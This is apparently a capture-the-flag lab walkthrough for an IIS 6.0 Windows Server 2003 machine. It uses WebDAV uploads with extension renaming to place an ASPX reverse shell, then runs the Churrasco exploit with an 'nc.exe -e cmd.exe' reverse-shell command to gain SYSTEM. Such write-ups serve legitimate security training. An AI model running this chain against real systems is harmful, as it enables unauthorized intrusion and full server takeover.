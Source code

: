 # IP Address: 10.10.10.15

# Enumeration

```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.15 -t all

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0

┌──(code㉿kali)-[~]
└─$ sudo nmap -p 80 -vv --script=http-frontpage* 10.10.10.15

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 127
| http-frontpage-login: 
|   VULNERABLE:
|   Frontpage extension anonymous login
|     State: VULNERABLE
|       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
|       
|     References:
|_      http://insecure.org/sploits/Microsoft.frontpage.insecurities.html

```

### HTTP
The server is running Microsoft Frontpage version 4.0 which has misconfigured permissions. 

We enumerate file permissions using DavTest.
```
┌──(code㉿kali)-[~]
└─$ davtest -move -sendbd auto -url http://10.10.10.15
********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_o27RPgyrd
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.pl
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.txt
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.php
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.shtml
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.asp
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.aspx
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.jsp
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.html
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.cgi
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.jhtml
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.cfm
Executes: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.txt
Executes: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.html
```


# Exploitation

We are able to create directories and upload files to it. Now, we upload an ASPX reverse shell, browse to the page and catch the shell with netcat. 

```
┌──(code㉿kali)-[~]
└─$ cadaver 10.10.10.15
dav:/> ls
Listing collection `/': succeeded.
Coll:   DavTestDir_o27RPgyrd                   0  Nov 21 17:37
Coll:   _private                               0  Apr 12  2017
Coll:   _vti_bin                               0  Apr 12  2017
Coll:   _vti_cnf                               0  Apr 12  2017
Coll:   _vti_log                               0  Apr 12  2017
Coll:   _vti_pvt                               0  Apr 12  2017
Coll:   _vti_script                            0  Apr 12  2017
Coll:   _vti_txt                               0  Apr 12  2017
Coll:   aspnet_client                          0  Apr 12  2017
Coll:   images                                 0  Apr 12  2017
        _vti_inf.html                       1754  Apr 12  2017
        iisstart.htm                        1433  Feb 21  2003
        pagerror.gif                        2806  Feb 21  2003
        postinfo.html                       2440  Apr 12  2017
dav:/> put shell.txt 
Uploading shell.txt to `/shell.txt':
Progress: [=============================>] 100.0% of 2718 bytes succeeded.
dav:/> copy shell.txt shell.aspx
Copying `/shell.txt' to `/shell.aspx':  succeeded.
```

```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4488                                                                                   
listening on [any] 4488 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.15] 1033
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```


# Privilege Escalation
Get the systeminfo and run windows-exploit-suggester against it. Tried a few exploits but nothing worked. Finally found a program written to exploit a WMI Service Isolation vulnerability in Windows Server 2003 SP2. 

Download churrasco.exe from here: https://github.com/Re4son/Churrasco and rename it to churrasco.txt

```
┌──(code㉿kali)-[~]
└─$ wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe -o churrasco.txt

```

Upload it along with nc.exe (temporarily renamed nc.txt since we can't upload files with .exe extension) to the target using cadaver. Change .txt to .exe
```
dav:/> put churrasco.txt 
Uploading churrasco.txt to `/churrasco.txt':
Progress: [=============================>] 100.0% of 31232 bytes succeeded.
dav:/> move churrasco.txt churrasco.exe
Moving `/churrasco.txt' to `/churrasco.exe':  succeeded.
dav:/> put nc.txt 
Uploading nc.txt to `/nc.txt':
Progress: [=============================>] 100.0% of 59392 bytes succeeded.
dav:/> move nc.txt nc.exe
Moving `/nc.txt' to `/nc.exe':  succeeded.
```

On the target shell we caught, run churrasco.exe
```
C:\Inetpub\wwwroot>churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.17 4499"
churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.17 4499"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4499
listening on [any] 4499 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.15] 1052
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system

```


# Proof
user.txt

![user.txt](https://github.com/codetantrum/walkthroughs/blob/master/Arctic/images/Pasted%20image%2020211121195349.png)


root.txt

![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Arctic/images/Pasted%20image%2020211121195444.png)
